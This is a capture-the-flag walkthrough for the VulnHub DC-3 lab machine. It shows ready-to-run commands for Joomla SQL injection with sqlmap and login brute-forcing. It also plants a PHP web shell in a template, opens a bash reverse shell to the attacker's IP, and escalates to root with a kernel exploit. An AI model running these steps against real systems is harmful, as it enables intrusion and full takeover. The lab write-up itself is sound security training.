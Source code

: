 # DC-3

## 1.Enumeration

```bash
root@kali: arp-scan -I eth0 -l

Interface: eth0, type: EN10MB, MAC: 08:00:27:b2:e9:3f, IPv4: 192.168.56.102
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.56.1	0a:00:27:00:00:0f	(Unknown: locally administered)
192.168.56.100	08:00:27:5f:5e:41	PCS Systemtechnik GmbH
192.168.56.115	08:00:27:31:0f:a8	PCS Systemtechnik GmbH
```

The IP address is `192.168.56.115`, let's scan it.

```bash
root@kali: nmap -sC -sV -p80 -v -oN nmap.out 192.168.56.115

Nmap scan report for 192.168.56.115
Host is up (0.00044s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 1194D7D32448E1F90741A97B42AF91FA
|_http-title: Home
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-generator: Joomla! - Open Source Content Management
MAC Address: 08:00:27:31:0F:A8 (Oracle VirtualBox virtual NIC)

```

The only open port is port 80, so we have to work on the web application:

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/8d992b5c-3a5d-4d38-898d-917b0ca7228d)

visiting the site, Wappalyzer shows this is a `Joomla` cms, also cheking the target with Nikto shows afew interesting directories :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/d70cfbff-32d9-4a05-b39c-3f9932602930)

so i visited the `/administrator` page :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/b467734b-1e5e-4c24-8038-4392ad61cca1)

this is actually a joomla CMS, let's find the version of it to see any exploit available

there is a tool called `joomscan` that does afew enumeration :

```bash
root@kali: joomscan --url http://192.168.56.115
```
![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/9a056c02-4bd8-43a7-9f4f-4e1fa4ec87e3)

you can also check for the version by visiting the below urls, but it gives an approximate version :

```bash
curl http://192.168.56.115/administrator/manifests/files/joomla.xml | grep version
 curl http://192.168.56.115/language/en-GB/en-GB.xml | grep version
```

then in searchsploit i found afew exploits :

```text
Joomla! 3.7 - SQL Injection | php/remote/44227.php
Joomla! 3.7.0 - 'com_fields' SQL Injection | php/webapps/42033.txt
```

the first one `44227` did not work, but the second one guides through a valid SQLi bug, i used the command mentioned in the document :

```bash
root@kali: #sqlmap -u "http://192.168.56.115/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] --batch
```

sqlmap found the database in use, `joomladb`, then i tried to dump the data out of it, but did not work since it showed an error after running the below command :

```bash
root@kali: sqlmap -u "http://192.168.56.115/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb --T '#__users' --dump -p list[fullordering] --batch 
```
![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/8b690314-3d8d-4f09-bfc2-6d0a66c713df)

there must be something with the naming of the table which starts by `#`, so i went to another path and tried to brute force the admin panel

i used metasploit `auxiliary/scanner/http/joomla_bruteforce_login` but my system crushed every time i used this module, so i used nmap instead

put admin in user.txt

```bash
root@kali: nmap -v -sV --script http-joomla-brute --script-args 'userdb=/root/ctf/dc-3/user.txt,passdb=/usr/share/wordlists/rockyou.txt,http-joomla-brute.threads=3,brute.firstonly=true' 192.168.56.115
```

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/bc195964-9da2-4005-accf-d838e0a5e493)

yes, we found admin password, try to login to panel

after logging in we just need to upload our shell so do as follow :


1- Click on Templates on the bottom left under Configuration to pull up the templates menu.

2- Click on a template name. Let's choose protostar under the Template column header. This will bring us to the Templates: Customise page.

3- F1inally, you can click on a page to pull up the page source. Let's choose the error.php page. We'll add a PHP one-liner to gain code execution as follows:
system($_GET['cmd']);

4- Save & Close

5- curl -s http://192.168.56.115/templates/protostar/error.php/error.php?cmd=id


## 2.Gaining Shell

I just used a python reverse shell and url encoded it to get my shell :

```bash
curl -s http://192.168.56.115/templates/protostar/error.php/error.php?cmd=bash%20%2Dc%20%27exec%20bash%20%2Di%20%26%3E%2Fdev%2Ftcp%2F192%2E168%2E56%2E102%2F4444%20%3C%261%27
```

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/76f3165c-205f-4cf1-936a-41e65fcb418e)


## Privilege Escalation

First we look at kernel version :

```bash
www-data@DC-3:/var/www/html/templates/protostar$ uname -a

Linux DC-3 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:34:49 UTC 2016 i686 i686 i686 GNU/Linux
```

```bash
www-data@DC-3:/var/www/html/templates/protostar$ cat /etc/os-release

NAME="Ubuntu"
VERSION="16.04 LTS (Xenial Xerus)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 16.04 LTS"
VERSION_ID="16.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"
UBUNTU_CODENAME=xenial
```

just searching for its exploit on internet i found [this](https://www.exploit-db.com/exploits/39772)

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/f69a9114-4b49-4108-8694-87e90b59d33e)

just download the zip file and upload it on the target and do the instructions :

```bash
www-data@DC-3:~/tmp/ebpf_mapfd_doubleput$ ./compile.sh
www-data@DC-3:~/tmp/ebpf_mapfd_doubleput$ ./doubleput
starting writev
woohoo, got pointer reuse
writev returned successfully. if this worked, you'll have a root shell in <=60 seconds.
suid file detected, launching rootshell...
we have root privs now...
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)

cd /root

cat the-flag.txt

__        __   _ _   ____                   _ _ _ _ 
 \ \      / /__| | | |  _ \  ___  _ __   ___| | | | |
  \ \ /\ / / _ \ | | | | | |/ _ \| '_ \ / _ \ | | | |
   \ V  V /  __/ | | | |_| | (_) | | | |  __/_|_|_|_|
    \_/\_/ \___|_|_| |____/ \___/|_| |_|\___(_|_|_|_)
                                                     

Congratulations are in order.  :-)

I hope you've enjoyed this challenge as I enjoyed making it.

If there are any ways that I can improve these little challenges,
please let me know.

As per usual, comments and complaints can be sent via Twitter to @DCAU7

Have a great day!!!!
```

This is how you can get root on the system.










